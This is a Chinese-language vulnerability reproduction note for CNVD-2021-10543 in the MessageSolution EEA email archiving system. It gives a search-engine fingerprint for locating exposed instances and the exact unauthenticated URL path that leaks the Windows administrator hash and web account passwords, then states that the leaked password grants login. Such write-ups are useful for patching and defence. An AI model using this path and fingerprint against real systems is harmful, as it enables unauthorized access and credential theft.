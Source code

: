 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

<a-checkbox checked>MessageSolution 企业邮件归档管理系统EEA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="MessageSolution Enterprise Email Archiving (EEA)"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/mess-1.png)



访问如下Url

```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![img](/assets/PeiQi-Wiki/img/mess-2.png)



使用获得到的密码可以登录系统

![img](/assets/PeiQi-Wiki/img/mess-3.png)